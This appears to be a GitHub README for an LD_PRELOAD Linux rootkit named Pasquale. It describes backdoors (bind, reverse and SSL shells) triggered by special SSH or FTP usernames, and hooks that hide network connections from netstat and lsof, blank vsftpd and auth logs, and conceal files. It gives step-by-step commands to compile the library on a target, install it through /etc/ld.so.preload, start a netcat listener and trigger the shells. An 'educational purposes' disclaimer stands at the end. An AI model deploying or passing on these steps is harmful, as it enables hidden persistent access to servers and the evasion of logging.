 ```yaml
---

# Pasquale Rootkit

## Overview

Pasquale is a userland rootkit utilizing the `LD_PRELOAD` technique to hook system calls and provide various backdoor functionalities. It demonstrates several concepts spanning C programming, socket programming, openSSL, system calls, and various elements related to Linux. The rootkit targets `syslog` and `vsftpd`, triggering one of three possible backdoors. Any network connections made by the attacker are hidden from `netstat` and `lsof`. The rootkit also hides the attacker from logs that usually monitor SSH and FTP connections. 

## Features

- **Backdoor Access**: Provides two types of backdoors: bind shell, reverse shell, and SSL-encrypted shell, which can be triggered through both SSH and FTP.
- **Log Manipulation**: Hides specific log entries from `vsftpd.log` and `auth.log`.
- **Process Hiding**: Conceals specific connections from `netstat` and `lsof`.

## Installation

### Prerequisites

Ensure you have OpenSSL installed on your system. 

### Supported Distributions

- Ubuntu
- Debian
- Kali Linux
- Other Debian-based distributions

### Compilation

Compile the rootkit as a shared library on the target system:

```bash
gcc pasquale.c -fPIC -shared -D_GNU_SOURCE -o lib.pack.so.6 -ldl -lssl -lcrypto
```

### Deployment

This rootkit would be installed on a Linux server where an attacker would have root access. The steps below assume you have root access on the target system.

1. **Compile the Library on Target**: Follow the compilation step directly on the target system to create `lib.pack.so.6`.

2. **Configure `LD_PRELOAD`**: Add the library to `/etc/ld.so.preload`.

    ```bash
    echo "/path/to/lib.pack.so.6" > /etc/ld.so.preload
    ```

### Verification

Verify that the library is loaded:

```bash
ldd /bin/ls
```

Check that `lib.pack.so.6` is listed.

## Usage

### Starting a Listener

Start a listener on the attacker's machine:

```bash
nc -lvp 443
```

### Triggering the Backdoor

Use one of the special usernames to trigger the desired backdoor (bind, reverse, or SSL):

```bash
ssh BIND_USER@target
ssh REVERSE_USER@target
ssh OPENSSL_USER@target
```

Alternatively, these backdoors can also be triggered via FTP with the same usernames:

```bash
ftp target
# login with username BIND_USER, REVERSE_USER, or OPENSSL_USER
```

## Functionality Details

### System Call Hooking

- **write Hook**: Intercepts `write` calls to check for specific usernames. Depending on the username, it triggers a bind shell, reverse shell, or SSL-encrypted shell. The ssh and ftp processes both make write calls when a username is submitted. 
- **fopen Hook**: Intercepts `fopen` calls to hide entries from `/var/log/vsftpd.log` and certain network connections from `netstat` and `lsof`.
- **readdir Hook**: Intercepts directory reads to hide the rootkit's presence, including the `ls` command.

### Abuse of syslog and vsftpd

- **Syslog**: The rootkit hooks the `write` syscall to detect specific usernames logged by `syslog`. When detected, it triggers the appropriate backdoor, ensuring no logs are written.
- **vsftpd**: The `fopen` hook redirects writes to `/var/log/vsftpd.log` to `/dev/null`, ensuring the log file remains empty.

## Important Notes

- **Educational Purposes**: This rootkit is intended for educational purposes only. Do not use it for malicious activities.
- **System Impact**: Running this rootkit can have significant security implications. Use it in a controlled and legal environment.

## License

This project is licensed under the MIT License.

---
```

